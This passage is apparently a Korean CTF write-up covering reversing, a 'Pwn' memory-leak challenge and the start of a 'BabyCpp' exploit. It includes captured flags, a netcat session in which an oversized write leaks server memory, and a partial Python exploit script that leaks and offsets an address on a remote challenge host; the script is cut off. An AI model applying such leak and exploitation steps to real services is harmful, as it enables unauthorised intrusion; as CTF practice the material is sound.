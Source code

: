 
- ex.py

역연산 짜려다가 귀찮아서 사이드채널로 풀었더니 금방 풀렸다. 위 코드로 돌리면 문자열이 나오는데 그걸 입력해주면 플레그가 나온다.

flag : dimi{1T$_N3VER_E@SY!}



## Pwn

```
서버 바이너리에는 정상적으로 플래그가 있습니다
nc 121.170.91.17 9901
DOWNLOAD
```



```
youngjoo@ubuntu16 init$ nc 121.170.91.17 9901
Do you want to do?
[R]ead
[W]rite
[E]xit
>>> W
length: 1000
hQ��4�����bVdimi{A110cAt3_1s_$o_1mp0rt@n7}@@$��,%b�N砪�bV0H��4H@$���<�����bVJ!�6���U���bV@@$��J!K9�(J!{�SԸX@$��hQ��4����4���bV@@$��ڧ�bV8@$��eO$��jO$���O$���O$���O$��!�:�����d@��bV8	���4   ���bV
                                     �
���A$���O$���A$���,%b�N�ձ���|��x86_64Do you want to do?
```

단순히 write 해주면 풀린다. 이거 모르고 쉘따고 좋아했는데,,

flag : dimi{A110cAt3_1s_$o_1mp0rt@n7}



### BabyCpp  ( 880p )

```
nc 121.170.91.17 7777
DOWNLOAD
```



```python
from ntpwn import *

#s = process('./babycpp')
s = remote('121.170.91.17',7777)

def go(menu):
	s.sendlineafter('>>> ',menu)

sc = list()
sc.append('tracemalloc on')
sc.append('c')
sc = makesc(sc)

#gdb.attach(s,sc)
go('S')
go('N')
s.recvuntil('Shell address: 0x')
leak = int(s.recvline()[:-1],16) - 0x1998 + 0x202d10
log.info("LEAK : " + hex(leak))

go('V')
go('N')
```